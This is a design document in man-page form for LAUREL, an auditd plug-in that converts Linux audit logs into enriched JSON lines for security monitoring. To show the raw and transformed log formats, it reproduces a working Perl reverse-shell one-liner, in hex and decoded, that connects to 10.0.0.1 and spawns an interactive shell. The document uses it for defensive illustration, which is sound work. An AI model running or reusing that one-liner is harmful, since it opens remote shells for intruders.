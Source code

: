 ```yaml
---
title: laurel - About
section: 7
header: System Administration Utilities
footer: laurel 0.5.3
---
```


# NAME
laurel-about - High-level description of `laurel(8)` design, rationale, features

# DESCRIPTION

## Problem statement

While logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring, the log format is not well-suited for at-scale analysis in a SIEM. 

### Format issues

- All non-trivial events are split across multiple lines that have to be joined together using a message identifier, but current search-centric log analysis systems are quite limited when it comes to join operations.
- Files and program executions are logged via `PATH` and `EXECVE` elements. The character set for strings is a limited subset of ASCII no escaping mechanism exists: If a string contains bytes that have special meaning in the format (even space or quote characters), the entire string is hex-encoded.
- Argument lists are preserved in `EXECVE` records, but with an `a0="…"`, `a1="…"`, `a2="…"`, `a3="…"` naming scheme, they are not easily accessible.
- Long command lines may be spread across multiple `EXECVE` event lines.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values.

### Missing context

Most audit events are based on either system calls or file operations. Whether or not some suspicious actions should be considered harmful, largely depends on the context in which it takes place. For example, one would not expect most web applications to use `netcat` to connect to hosts on the Internet, but an administrator who is logged and over SSH who uses `netcat` to debug network issues should raise fewer suspicions. Unfortunately, the only context that can be added for Linux audit events "keys" using the `-k` parameter of `auditctl(8)`.

### Example

Spawning a simple Perl reverse-shell one-liner creates the following 7-line audit log entry that nicely demonstrates some of these  shortcomings:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

## Solution

In addition to (or instead of) writing log files, `auditd(8)` can pass log lines to one or multiple plug-ins for further processing, see `auditd-plugins(5)`. `laurel(8)` is intended to be run as such a plug-in. It reads the audit logs from standard input, parses them, and writes a modified form of the audit log to a different log file.

### Output format

Log records carrying the same event ID (the `msg=audit(TIME:SEQUENCE):` part) are collected into coherent events and output as a JSONlines-based log format. Most importantly, hex-encoded strings are output as regular JSON strings. [RfC8259] mandates that "text exchanged between systems that are not part of a closed ecosystem MUST be encoded using UTF-8", therefore any bytes or byte sequences that are not valid UTF-8 are percent-encoded as described in [RfC3986]. Numbers are parsed as decimal, octal, or hexadecimal values and output in an unambiguous format. List data (`SYSCALL.{a0 … a3}` and `EXECVE.a*`) are turned into JSON arrays. `PROCTITLE.proctitle` is split at NULL bytes and transformed into a list.

[RfC8259]: https://datatracker.ietf.org/doc/html/rfc8259 'The JavaScript Object Notation (JSON) Data Interchange Format'

[RfC3986]: https://datatracker.ietf.org/doc/html/rfc3986 'Uniform Resource Identifier (URI): Generic Syntax'

### Structure

Every audit log line produced by _LAUREL_ is one single JSON object consisting of key/value pairs that contains at least an `ID` field.

- `SYSCALL`, `EXECVE`, `CWD`, `PROCTITLE` fields point to single JSON objects.
- `PATH`, `SOCKADDR` fields point to lists of JSON objects.

Every other kernel-produced audit message not mentioned above results in field pointing to a list of JSON objects. Details may change after the list of kernel audit message types has been reviewed.

### Encoding of invalid UTF-8 strings and binary data

- Most byte values that represent printable ASCII characters are reproduced as-is (but are subject to JSON string escaping rules).
- Bytes that map to non-printable ASCII characters (less than 32/0x20; 127/0x7f) are percent-encoded.
- Byte values that map to `%` (37/0x25) and `+` (42/0x2b) are percent-encoded.
- Byte values outside of the ASCII range (greater than 127/0x7f) are reproduced as-is if they are part of a valid UTF-8 sequence. Otherwise, they are percent-encoded.

Handling of special Unicode characters may change in the future.

### Translation / Enrichment

If `auditd(8)` has been configured with `log_format=ENRICHED`, it translates some numeric values in the original audit data to strings. Per convention, it adds translated information using all-caps versions of the keys. For example, 

    arch=c000003e syscall=59 uid=0
	
get translated to

    ARCH=x86_64 SYSCALL=execve UID="root"

by `auditd(8)`. All information that is added to records by `laurel(8)`  follows the same convention, i.e. keys are turned into all-caps. While `laurel` can be configured to perform the same translations as `auditd(8)`, it con perform other enrichments, including interpreted scripts, collecting specific environment variables, or container information for processes that are run within container environments.

### Adding Context: Process Relationships, Labels

While processing audit records `laurel(8)` tracks processes and remembers `comm`, `exe`, and the event ID associated with the latest `execve` event of a process. Processes that are tracked can be assigned labels through various mechanisms and those labels can optionally be propagated to child processes.

Mechanisms by which labels can be assigned include:
- using the key from an audit event (the `-k` option of `auditctl(8)`)
- regular expression applied to the executable path (`SYSCALL.exe` field)
- regular expression applied to the script path (`SYSCALL.SCRIPT` field, enriched)

The process tracking information can be used to enrich fields containing process ids, including `SYSCALL.{pid, ppid}` and `OBJ_PID.opid` associated with `ptrace` attach or `kill` syscalls.

### Volume reduction: Filtering out events

To reduce the high volume of events, it is possible to filter out events by key or by process label. Events that are filtered are still used for process tracking.

### Example

The log lines from the Perl reverse shell execution above are processed by `laurel(8)` into the following JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

## Audit rule set advice

For process tracking to work properly, the kernel should be configured to log all `execve`-like calls and all `fork`-like for processes that are expected to ose `fork` without `execve`, e.g. shells:
```
-a exit,always -F arch=b32 -S execve,execveat -F success=1
-a exit,always -F arch=b64 -S execve,execveat -F success=1

-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/sh
-a exit,always -F arch=b32 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
-a exit,always -F arch=b64 -S fork,vfork,clone,clone3 -F success=1 -F exe=/bin/bash
# …
```
If the `fork` calls are not needed in the log file, they can be filtered out by assigning a key to those rules in the audit ruleset and adding thhis key to `filter.filter-keys`.

Note that older versions of auditd may not understand all the syscalls. In those cases, it may be necessary to substitute the syscall numbers for the ruleset.

# SEE ALSO
`laurel(8)`, `auditd(8)`, `audit.rules(7)`

# AUTHORS
- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
